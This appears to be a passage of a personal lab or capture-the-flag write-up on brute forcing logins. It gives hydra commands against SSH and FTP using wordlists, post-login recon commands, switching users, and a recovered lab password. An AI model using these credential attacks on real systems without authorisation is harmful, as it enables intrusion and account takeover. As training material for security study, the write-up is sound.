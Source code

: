 ### SSH attack 

the command to do a service attack with hydra is simple as we specify the username/password wordlists and add `service://SERVER_IP:PORT` to the end 

hydra will suggest to add `-t 4` to the end for the max number of parallel attempts because SSH typically limits the number of parallel connections and drop other connections 

the final command looks like: 

`hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4`

this can result in a username and password that we can ssh into with like so: 

`ssh b.gates@178.35.49.134 -p 22`

### FTP brute forcing 

once we are ssh'd in, we can see what other users are on the system:

`ls /home` 

we can also do local recon to see what other ports are open locally: 

`netstat -antp | grep -i list` 

if port 21 is open we can try brute forcing the FTP login with the other users we find locally 

for this example, let's assume that the admin account has hydra installed, so we can just run it on the logged in user: 

`hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`

if we get a result we can try to FTP as that user or switch to another user: 

`ftp 127.0.0.1`

switch to the user: 

`su - m.gates`

### Brute force b.gates 

what is the flag found in the home dir of the user b.gates? 

first make sure we have our personalized password list: 

![](../Images/Pasted%20image%2020231228174726.png)

make the hydra ssh command using a static username of b.gates and our personalized password list: 

![](../Images/Pasted%20image%2020231228174806.png)

we have found the password **4dn1l3m!$** that we can use to ssh with 

use ssh to connect on the specified port and verify that I am logged in as b.gates: 

![](../Images/Pasted%20image%2020231228174934.png)

look around in the directories and find the flag in b.gates home directory: 
